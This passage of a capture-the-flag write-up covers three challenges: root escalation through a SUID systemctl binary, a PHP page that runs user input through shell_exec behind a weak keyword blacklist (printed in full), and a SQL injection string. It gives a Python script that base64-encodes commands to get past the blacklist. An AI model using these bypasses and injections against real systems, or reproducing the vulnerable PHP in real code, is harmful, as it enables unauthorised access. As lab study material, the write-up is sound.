 The `systemctl` binary had the SUID bit set, allowing us to escalate to root privileges by [creating a service](https://gtfobins.github.io/gtfobins/systemctl/).

### Revo Web App

Performing a directory scan reveals that there is a `/cmd.php` endpoint.

This seems to allow us to perform command injection, but there appears to be a blacklist filter. Fortunately, the `cat cmd.php` command works, allowing us to view the blacklist.

```php
<?php
  function test_input($data) {
    $str1 = "%44";
    $data2 = append_string ($str1, $data);
    return $data2;
  }
  
  function display()
  {
    $bl = array("/",";","@","\","\/\/");
    $input = $_POST["cmd"];
    $input = str_replace($bl, "", $input);
    $bl2 = array("curl","shutdown","init","systemctl","ps","ls","etc");
    $input = str_replace($bl2, "", $input);
    $output = shell_exec($input);
    echo $output;
  }
  if(isset($_POST['submit']))
  {
    display();
  } 
 ?>
```

To overcome the blacklist, we used a base64-encoded payload, which is then decoded by Python on the server.

```python
import base64

PAYLOAD = b"cat /home/bobby/flag.txt"

encoded = base64.b64encode(PAYLOAD)
print(encoded)

command = "python3 -c '__import__(\"os\").system((__import__(\"base64\").b64decode(\"" + encoded.decode() + "\")))'"
print(command)
```

### Web 101

There is a blacklist filter for `#` and `=`. Using `test' or 1-- -` gives us account credentials, but logging in with these does not give us the flag.
